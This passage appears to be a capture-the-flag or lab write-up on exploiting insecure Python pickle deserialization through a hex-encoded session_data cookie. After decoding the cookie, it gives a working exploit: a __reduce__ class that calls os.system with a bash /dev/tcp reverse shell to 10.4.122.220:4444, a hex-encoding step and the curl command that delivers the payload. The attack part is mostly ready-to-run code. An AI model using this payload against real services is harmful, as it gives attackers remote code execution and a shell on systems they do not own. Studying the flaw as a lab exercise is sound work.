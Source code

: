 Its value was hex-encoded:

```
80049525000000000000007d94288c0475736572948c04726f6f74948c07726576656e7565948c05383530303094752e
```

Decoded with Python’s pickle:

```python
import pickle
b = bytes.fromhex("80049525000000000000007d94288c0475736572948c04726f6f74948c07726576656e7565948c05383530303094752e")
print(pickle.loads(b))
```

Output:

```
{'user': 'root', 'revenue': '85000'}
```

This confirmed **insecure pickle deserialization** — exploitable for code execution.

---

# Exploiting Insecure Pickle

### Proof of Concept

A malicious object with `__reduce__` triggering `os.system()` was serialized into a pickle and hex-encoded.

- Test: replaced `user` with an object that ran `id` or `curl`.  
- The server executed the payload and responded, proving code execution.

---

### Weaponization

A reverse shell payload was crafted:

```python
import pickle, binascii, os  
class RCE:
    def __reduce__(self):
        cmd = 'bash -c "bash -i >& /dev/tcp/10.4.122.220/4444 0>&1"'
        return (os.system, (cmd,))

data = {"user": RCE(), "revenue": "85000"}
payload = pickle.dumps(data, protocol=4)
print(binascii.hexlify(payload).decode())
```

Set as the `session_data` cookie:

```bash
HEX=$(python3 make_shell.py)
curl -v http://localhost:1234/ -H "Cookie: session_data=${HEX}"
```
